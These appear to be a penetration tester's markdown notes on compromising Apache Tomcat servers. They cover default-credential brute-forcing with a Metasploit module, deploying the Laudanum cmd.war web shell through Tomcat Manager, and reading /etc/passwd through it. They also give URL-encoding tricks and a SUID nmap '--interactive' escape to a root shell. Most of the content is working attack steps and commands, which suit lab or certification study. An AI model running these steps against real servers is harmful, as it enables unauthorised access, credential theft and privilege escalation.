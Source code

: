 - Used primarily For Java-based web applications.
- default credentials = https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
- Typically found on port 8180 TCP

### Metasploit
```
use auxiliary/scanner/http/tomcat_mgr_login
set options
set STOP_ON_SUCCESS = true
run
```

- after enter in the Tomcat Manager with the credentials we got here
- there is an area that we can see the deployed applications

### Laudanum
- https://sourceforge.net/projects/laudanum/
- in kali: /usr/share/laudanum/ - /jsp/
- the cmd.war application is essentially a java application, which if we can deploy successfully, will allow control of the server, and remote command execution.
- War file to deploy > browser > select the cmd.war file
- confirm if the application was deployed > applications >  /cmd

- if the application deployed correctly, we can browser to it with the following URL:

```
http://<target ip>/cmd/cmd.jsp
```

// we can now execute commands on the system from the JSP Shell:
```
cat /etc/passwd
```

> with the possibility of execute commands in hand, we can get a rev shell etc
the sky is the limit



## Extra [+] - URL encoding conversion
```
(space) = +
(=) = %3d
( / ) = %2f
( . ) = %2e
( aspas ) = %22
( - ) = %2d
( : ) = %3a
```

``` 
find / -perm -4000 2>/dev/null
	/usr/bin/nmap
	nmap --interactive
	!sh
	// we have root
```
